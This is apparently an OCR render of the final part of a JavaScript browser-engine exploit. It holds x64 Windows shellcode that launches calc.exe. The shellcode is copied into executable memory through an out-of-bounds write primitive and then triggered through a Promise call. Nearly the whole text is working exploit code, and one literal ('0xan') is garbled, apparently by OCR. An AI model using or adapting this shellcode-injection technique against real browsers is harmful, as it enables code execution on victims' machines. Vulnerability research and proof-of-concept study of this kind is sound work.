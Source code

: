 ```javascript=
            0x4d, 0x31, 0xff, 0x41, 0xb7, 0x88, 0x4d, 0x01, 0xcf, 0x49, 0x01, 0xcf, 0x45, 0x8b, 0x3f, 0x4d,
            0x01, 0xcf, 0x41, 0x8b, 0x4f, 0x18, 0x45, 0x8b, 0x77, 0x20, 0x4d, 0x01, 0xce, 0xe3, 0x3f, 0xff,
            0xc9, 0x48, 0x31, 0xf6, 0x41, 0x8b, 0x34, 0x8e, 0x4c, 0x01, 0xce, 0x48, 0x31, 0xc0, 0x48, 0x31,
            0xd2, 0xfc, 0xac, 0x84, 0xc0, 0x74, 0x07, 0xc1, 0xca, 0x0d, 0x01, 0xc2, 0xeb, 0xf4, 0x44, 0x39,
            0xc2, 0x75, 0xda, 0x45, 0x8b, 0x57, 0x24, 0x4d, 0x01, 0xca, 0x41, 0x0f, 0xb7, 0x0c, 0x4a, 0x45,
            0x8b, 0x5f, 0x1c, 0x4d, 0x01, 0xcb, 0x41, 0x8b, 0x04, 0x8b, 0x4c, 0x01, 0xc8, 0xc3, 0xc3, 0x41,
            0xb8, 0x98, 0xfe, 0x8a, 0x0e, 0xe8, 0x92, 0xff, 0xff, 0xff, 0x48, 0x31, 0xc9, 0x51, 0x48, 0xb9,
            0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x51, 0x48, 0x8d, 0x0c, 0x24, 0x48, 0x31, 0xd2,
            0x48, 0xff, 0xc2, 0x48, 0x83, 0xec, 0x28, 0xff, 0xd0]
        const padSize = (8 - (shellcode.length % 8)) % 8;
        shellcode = [...shellcode, ...new Array(padSize).fill(0x90)];
        var byte_arr = new ArrayBuffer(shellcode.length);
        var byte_arr_view8 = new Uint8Array(byte_arr);
        var byte_arr_view64 = new BigUint64Array(byte_arr);
        for (var i = 0; i < shellcode.length; i++) {
            byte_arr_view8[i] = shellcode[i];
        }

        console.log("Size: 0x" + byte_arr_view64.length.toString(16))
        for(let i = 0; i < byte_arr_view64.length; i++)
            oob_write(target + BigInt(i * 8) - memory_base, byte_arr_view64[i]);

        oob_write(rwx_addr + 0xan - memory_base, 0xc6ce900000df1e9n)
        oob_write(0n, 0n)
    }
}
Promise.any.call(PromiseLike, [1])
//function->shared_func_info(0x10)->function_data(0x8)->internal(0x4)->call_target(0x14)(index)




```
